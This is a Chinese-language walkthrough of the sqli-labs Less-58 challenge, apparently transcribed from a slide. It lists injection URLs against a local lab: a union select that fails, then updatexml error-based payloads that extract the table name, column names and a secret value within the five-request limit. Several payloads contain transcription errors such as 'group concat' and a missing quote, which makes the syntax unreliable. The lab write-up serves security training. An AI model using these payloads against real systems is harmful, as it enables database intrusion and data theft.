

# Less-58
本关中是对输入的次数做了限制，必须在5次请求之内获取信息，否则会刷新表名
SELECT * FROM security.users WHERE id='1'
1.通过不断重置数据库发现: http://127.0.0.1/sqli/Less-58/index.php?id= 1' union select 1,2,3 --+这里没有回显数据，
所以我们使用union select查询好像没有什么效果
2. http://127.0.0.1/sqli/Less-58/index.php?id=1' and updatexml(1,concat(0x7e,(select group concat(table_name) from
Information_schema.tables where table_schema= 0x4348414c4c454e474553 ),1) --+ 直接爆出表
3. http://127.0.0.1/sqli/Less-58/index.php?id=1' and updatexml(1,concat(0x7e,(select group, concat(column_name) from
Information_schema.columns where table_name='mk25r38vwy ),1)-+ 直接爆出字段名字
4. http://127.0.0.1/sqli/Less-58/index.php?id=1' and updatexml(1,concat(0x7e,(select group concat(secret _OHW4) from
CHALLENGES.mk25r38vwy ),1)-+得到字段的值